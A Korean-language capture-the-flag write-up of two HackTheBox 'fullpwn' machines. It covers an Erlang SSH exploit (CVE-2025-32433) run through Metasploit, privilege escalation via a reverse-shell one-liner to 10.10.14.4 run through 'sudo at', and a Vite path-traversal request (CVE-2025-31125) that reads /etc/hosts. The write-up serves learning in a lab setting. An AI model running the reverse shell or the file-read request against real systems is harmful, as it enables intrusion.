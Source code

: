 ### Powerlang

> category: fullpwn
> keyword: CVE-2025-32433, LPE via at command

이 문제는 fullpwn 분야로 user flag와 root flag 두 개를 획득해야 한다. 제공된 인스턴스에 대해 스캐닝을 진행한 결과 80번 포트에 http, 2222번 포트에 SSH 서비스가 실행 중이었다.

처음에는 웹 서비스 접근 이후 에러 페이지에서 Apache 2.4.58 버전임을 확인할 수 있어 이 부분에 대한 취약점을 찾아보았으나 쓸만한 내용은 확인하지 못하였다. SSH 서비스 또한 스캐닝 결과에서 5.2.9 버전이 실행 중임을 알 수 있었기 때문에 찾아본 결과 CVE-2025-32433 취약점에 영향 받는 버전임을 식별하였다.

이 취약점에 대한 메타스플로잇 모듈이 깃헙에 공개되어 있었기 때문에 이를 수동으로 추가하여 필요한 옵션 지정 후 실행하자 shell 획득이 가능하였다.

> 모듈 추가 과정에서 Ubuntu 24.04 기준 `/opt/metasploit-framework/embedded/framework/modules` 경로가 사용되었다.

익스플로잇 실행 이후 `cat user.txt` 를 통해 user flag 획득이 가능했다.

```py
meterpreter > shell
Process 3123 created.
Channel 1 created.

ls
ssh_system
user.txt
id
uid=1000(it-operator) gid=1000(it-operator) groups=1000(it-operator),100(users)

cat user.txt
HTB{erlang_ssh_is_4_th1ng?}
```

이후 root flag 과정에서 시간을 많이 허비하였는데 다른 팀원이 at 명령어를 활용하여 해결해주었다.

```sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9999 0>&1'" | sudo at now + 1 minute
```

권한상승을 위한 벡터를 찾아주는 **linPEAS**와 `sudo` 를 활용한 기법에 대해 익혀둘 필요가 있을 것 같다.

### Volnaya

> category: fullpwn
> keyword: CVE-2025-31125, CVE-2020-9484 ,,,

이 문제의 경우 CVE-2025-31125를 이용한 *arbitrary file read*까지는 성공하였으나 그 이후 user 권한 획득으로 이어지지 못해 대회 기간 중 풀이를 실패하였다.

File read를 통해 여러 파일을 탐색하던 중 `/etc/hosts` 에 아래와 같이 tomcat 서버에 대한 정보를 식별하였으나 어떻게 접근해야하는지 방법을 알지 못했다.

```py
(venv) [insp3ct0r_x@Junyoungs-MacBook-Pro:~/Downloads/HTB_BusinessCTF/fullpwn/volnaya/CVE-2025-31125 on main]
% python exploit.py -u http://volnaya.htb --path /etc/hosts                                                                                                                                                      2 ↵
[!] 'toilet' command not found. Defaulting to plain text.
CVE-2025-31125

─────────────────────────────────────────────────────────────
 🛡️  CVE-2025-31125 — Vite WASM Import Path Traversal
 📌  By 0xgh057r3c0n
 🧬  Attempts to extract and decode embedded base64 WASM
─────────────────────────────────────────────────────────────


[*] Requesting: http://volnaya.htb/@fs/etc/hosts?import&?inline=1.wasm?init
[+] Decoded Base64 Content:

127.0.0.1 localhost
```